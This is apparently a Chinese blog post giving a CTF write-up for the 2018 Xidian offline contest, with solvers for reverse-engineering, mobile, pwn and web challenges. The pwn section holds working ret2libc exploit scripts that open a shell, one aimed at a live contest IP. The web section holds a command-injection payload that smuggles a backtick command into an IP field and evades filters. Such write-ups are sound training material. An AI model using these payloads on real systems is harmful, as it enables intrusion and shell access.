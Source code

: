```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      西电网信杯线下wp 		 # 标题 
subtitle:   西电网信杯               # 副标题
date:       2018-07-15 				# 时间
author:     Mr.R 					# 作者
# header-img: img/post-bg-2015.jpg 	# 这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								# 标签
    - CTF
---
```


# 西电网信杯线下赛题目wp
>今年师傅们出题挺好的 就是 题目分布有点倾斜 对于专攻某些方面的dalao们不太友好

## RE
>[题目包](../files/xdctf_re.zip)
   * RE1  
   送分题目 使用od直接nop掉判断即可
   * RE2  
   首先丢进ida
   ![](https://s1.ax1x.com/2018/07/26/PN1Zxs.png)
   根据分析,我们可以得出flag格式:  
   flag{x*32}  
   我们可以注意到v11是ebp-13h,v11是'}'  
   那么src的开头为ebp-33h,则src的长度就是0x33-0x13 --> 32位
   接下来讲src赋给了dst
   跟进接下来的函数
   ![](https://s1.ax1x.com/2018/07/27/PUmJeS.png)
   我们可以发现他实际就是将dst与另一个数组中的值进行了异或  
   继续跟进，
   ![](https://s1.ax1x.com/2018/07/27/PUmwzq.png)
   发现实际就是对v7数组进行赋值,最后再用v7进行比对,那么我们很容易写出程序 

 
```python
str1 = "23gjf13au98hk3a1090zp8qjs41h39jp"
add = [0x04,0x0F,0x0B,0x1E,0x0E,0x14,0x1F,0x09,0x17,0x02,0x19,0x1C,0x12,0x10,0x00,0x08,0x11,0x01,0x15,0x03,0x0A,0x1D,0x0C,0x16,0x18,0x0D,0x1B,0x05,0x07,0x06,0x13,0x1A]
str2 = ''
dict1 = [0x53,0x45,0x5C,0x1E,0x50,0x13,0x2F,0x78,0x04,0x53,0x58,0x4A,0x43,0x01,0x41,0x2A,0x08,0x40,0x67,0x2F,0x0C,0x4A,0x12,0x2E,0x41,0x6C,0x05,0x54,0x40,0x12,0x5B,0x4F]
flag = 'flag{'
for i in range(len(str1)):
    str2 += chr(ord(str1[add[i]]))
for i in range(len(str2)):
    flag += chr( ord(str2[i])^dict1[i] )
flag += '}'
print flag
```


   得到flag  
   >flag{5t4t1c_An4lys1s_1s_E4sy_2_me!!!~}  

* RE3  
    ![](https://s1.ax1x.com/2018/07/27/PUnVlq.png)
    看到这两个字符串，我们就要大胆的猜测是存在base64和迷宫  
    将下面一串字符重新排列之后  
    ![](https://s1.ax1x.com/2018/07/27/PUnNnK.png)  
    再分析代码
    ![](https://s1.ax1x.com/2018/07/27/PUnwAe.png)  
    ```
    2 -> down  
    1 -> up  
    3 -> left  
    4 -> right  
    ```
    我们可以得出在base64前的字符  
    >222441144222    

    同时，我们发现他的base64编码表是有替换的，于是可得出解密程序:
  
```python  
from base64 import b64encode
import string
s = "222441144222"
list1 = "0123456789ABCDEabcdefghijklFGHIJKLMNOPQRSTUVWXYZmnopqrstuvwxyz+="
list2 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
str1 = b64encode(s)
flag = ''
for i in str1:
    num = list2.index(i)
    flag += list1[num]
print flag
```  
> flag:CN8oD3bnCebqCN8o  


* Mobile  
    也是一个送分题....直接dex2jar就可以获得源码  
    很容易得知是rsa加密,且私钥通过解密可知


```python
f = open("key.txt","r")
key = f.read()
f.close()
key1 = ''
for i in range(len(key)):
    if(i % 2 == 0):
        temp = ord(key[i])+2
    else:
        temp = ord(key[i])-1
    key1 += chr(temp)
print key1
```


根据密文与私钥即可解密获得flag

## pwn
* pwn1
又是一道送分题  
![](https://s1.ax1x.com/2018/07/27/PUungI.png)  
![](https://s1.ax1x.com/2018/07/27/PUuuvt.png)  
![](https://s1.ax1x.com/2018/07/27/PUuMKP.png)  
很显然可以直接将ret覆盖成system调用地址  



```python
from pwn import *
s = process("./ez_pwn")
system = 0x04007A1
s.sendline("5438")
payload = 'A'*0x20+p64(1)+p64(system)
print payload
s.sendline(payload)
s.interactive()
```

* pwn2  
  一道传统的菜单题
  ![](https://s1.ax1x.com/2018/07/27/PUGhUP.png)
  漏洞出现在这个函数  
  ![](https://s1.ax1x.com/2018/07/27/PUGIC8.png)
  read_x 实际上就是一个read函数,显然我们可以溢出  
  padding = 0x40+8  
  就可以控制ret  
  同时利用puts和给予的libc就可以leak出system  
  其中需要注意的就是 64位传参使用的是寄存器
  >从第一个到第六个依次保存在rdi，rsi，rdx，rcx，r8，r9。从第7个参数开始，接下来的所有参数都将通过栈传递  

  对Rop的搜索使用ROPgadget即可  
  所以对整个的程序的编写思路就是:  
  1. leak出偏移,返回主函数
  2. 调用system,获得shell  
  exp如下:


```python
#-*-coding=utf-8-*-
from pwn import *

# s = process('./relro')

#暂时靶机还开着
s = remote('118.25.227.117',10000)
elf = ELF("./relro")
libc = ELF("./libc64.so")

put_plt = elf.plt['puts']
put_got = elf.got['puts']
pop_rdi = 0x0000000000400cd3
ret = 0x04008F2

#Get Offset
s.sendline("1")
payload = 'A'*0x40+'A'*8+p64(pop_rdi)+p64(put_got)+p64(put_plt)+p64(ret)
s.sendline(payload)
s.recvuntil("save message success.\n")
put_real = u64(s.recvline(keepends=False)[0:8].ljust(8,'\x00'))
offset = put_real-libc.symbols['puts']

system_add = libc.symbols['system']+offset
bin_sh = next(libc.search('/bin/sh'))+offset
s.sendline("1")
payload = 'A'*0x40+'a'*8+p64(pop_rdi)+p64(bin_sh)+p64(system_add)+p64(1)
print payload
s.sendline(payload)
s.interactive()
```  
> flag:flag{I_am_on_your_behind}



## WEB  
* web1  
    送分,直接变量覆盖出GLOBAL全局变量就可以
* web2  


```php
<?php
error_reporting(0);
require 'flag.php';
$value = $_GET['value'];
$password = $_GET['password'];
$username = '';

for ($i = 0; $i < count($value); ++$i) {
    if ($value[$i] > 32 && $value[$i] < 127) unset($value);
    else $username .= chr($value[$i]);
    if ($username == 'w3lc0me_To_xid1an' && intval($password) < 232 && intval($password + 1) > 233) {
        echo 'Hello '.$username.'!', '<br>', PHP_EOL;
        echo $flag, '<hr>';
    }
}

highlight_file(__FILE__);
```  


    源码如上 绕过这些限制需要几个小trick
1. chr函数在转换时会自动取模256,所以我们只需要在原本ascii码基础上+256即可
2. intval()在处理16进制时存在问题,但强制转换时时正常的.
> payload: value[0]=375&value[1]=307&value[2]=364&value[3]=355&value[4]=304&value[5]=365&value[6]=357&value[7]=351&value[8]=340&value[9]=367&value[10]=351&value[11]=376&value[12]=361&value[13]=356&value[14]=305&value[15]=353&value[16]=366&password=0x123  
flag: flag{bd6c746d0196a31e42c2a1ac7e7dbc4b}

* web3
    一个命令执行,大部分命令都被过滤了,但我们可以考虑使用拼接,同时空格可以使用tab绕过或者使用${IFS}绕过.  
    关于拼接,bash中可以使用变量的方式,例如:  
    ```a=ca;b=t;$a$b flag```

>payload: 127.0.0.1\`a=c;b=at;$a$b{此处为tab}flag\`  